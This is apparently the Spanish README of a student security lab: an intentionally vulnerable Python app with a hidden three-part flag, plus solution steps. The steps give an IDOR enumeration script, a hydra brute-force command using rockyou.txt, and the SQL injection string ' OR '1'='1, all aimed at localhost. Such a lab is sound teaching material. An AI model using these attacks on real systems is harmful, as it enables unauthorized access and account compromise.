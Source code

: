 # Trabajo Integrador DSA 2025  

Se desarrolló una aplicación en python vulnerable a ataques de fuerza bruta y SQL Injection. Además, presenta una vulnerabilidad de tipo Broken Access Control, específicamente Insecure Direct Object Reference (IDOR).

## Autores  
- Federica Montagna (02849/9)
- Juliana Soto (03157/1)
- Lola Dell'Oso (03088/5)

## Dockerfile y docker-compose.yml  
  Se debe ejecutar el comando 'docker compose up' para que Docker levante la aplicación.
  

## Setear la flag  
La aplicación cuenta con una flag dividida en 3 partes. Para cambiar los valores de cada flag, se debe modificar el archivo ./tpi_python/config/.env

Para ver el valor actual de las flags, ejecutar:
cat ./tpi_python/config/.env

Adicionalmente, se pueden modificar las pistas de la página para conseguir la totalidad de las flags.

## Explotación de vulnerabilidades

### Encontrar al usuario admin:
  - Vulnerabilidad IDOR: se debe ejecutar en la consola del navegador el siguiente script:

(async() => {
    for(let id = 2; id <= 100; id++){
        const response = await fetch(`http://localhost:15000/perfil/${id}`);
        const html = await response.text();
        if(html.includes("admin")){
            console.log(`admin encontrado en /perfil/${id}`);
        }
    }
})();

### Encontrar al usuario DSA:
 - Vulnerable a fuerza bruta: se debe ejecutar el siguiente comando:

 hydra -l DSA -P ../rockyou.txt "http-form-post://localhost:15000/login:usuario=^USER^&contrasena=^PASS^:Credenciales inválidas. Por favor, inténtalo de nuevo."

### Encontrar al club con la flag
- Vulnerabilidad SQL Injection: se debe realizar una inyección de SQL haciendo la siguiente búsqueda: 

1' OR '1'='1
